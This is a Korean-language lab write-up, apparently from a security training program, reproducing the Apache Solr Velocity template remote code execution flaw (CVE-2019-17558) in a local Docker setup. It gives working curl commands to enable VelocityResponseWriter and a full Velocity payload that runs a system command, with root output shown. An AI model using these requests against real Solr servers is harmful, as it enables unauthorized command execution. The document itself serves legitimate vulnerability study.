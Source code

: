 # Apache Solr Remote Code Execution via Velocity Template (CVE-2019-17558)

> 화이트햇 스쿨 3기 - [이명현 (@MYoung)](https://github.com/Myyoung0)
> 

Apache Solr는 Apache Lucene(TM) 기반의 고성능 검색 플랫폼이다.
Apache Solr 5.0.0부터 8.3.1 버전까지 VelocityResponseWriter를 통한 원격 코드 실행(RCE) 취약점이 존재한다.
공격자는 서버 설정 변경 없이 파라미터 기반으로 악성 Velocity 템플릿을 삽입할 수 있으며, 이를 통해 서버 명령어를 실행할 수 있다.

---

## 참고 자료

- vulhub solr PoC 환경: [https://github.com/vulhub/vulhub/tree/master/solr/CVE-2019-17558](https://github.com/vulhub/vulhub/tree/master/solr/CVE-2019-17558)

---

## 환경 설정

Apache Solr 8.2.0 버전을 Docker를 사용하여 구성했다.

```
docker-compose up -d
```

서버가 정상적으로 기동되면 다음 주소로 접속할 수 있다.

[http://localhost:8983/solr/](http://localhost:8983/solr/)

관리자 인증 없이 바로 접근 가능하다.

---

## 취약점 재현

### 1. Core 목록 조회

Apache Solr 관리 API를 통해 core 이름을 조회한다.

```
curl "http://localhost:8983/solr/admin/cores?indexInfo=false&wt=json"
```

core 이름은 demo로 확인된다.

### 2. Velocity 기능 활성화

Config API를 통해 VelocityResponseWriter 설정을 추가한다.

```
curl -X POST "http://localhost:8983/solr/demo/config" \
-H "Content-Type: application/json" \
--data '{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}'
```

응답에 "status": 0 이 포함되면 설정이 정상적으로 완료된 것이다.

### 3. 악성 템플릿을 이용해 명령어 실행

BurpSuite를 이용해 아래와 같은 요청을 전송했다.

```
POST /solr/demo/select?q=1&wt=velocity&v.template=custom HTTP/1.1
Host: localhost:8983
Content-Type: application/x-www-form-urlencoded

v.template.custom=#set($x='') #set($rt=$x.class.forName('java.lang.Runtime')) #set($chr=$x.class.forName('java.lang.Character')) #set($str=$x.class.forName('java.lang.String')) #set($ex=$rt.getRuntime().exec('id')) $ex.waitFor() #set($out=$ex.getInputStream()) #foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end
```

### 4. 명령어 실행 결과

서버로부터 다음과 같은 응답을 받았다.

```
TP/1.1 200 OK
Content-Type: text/html;charset=utf-8
Content-Length: 49

0 uid=0(root) gid=0(root) groups=0(root)
```

명령어 실행이 성공하여 uid=0(root) 결과를 확인했다.

![1.png](1.png)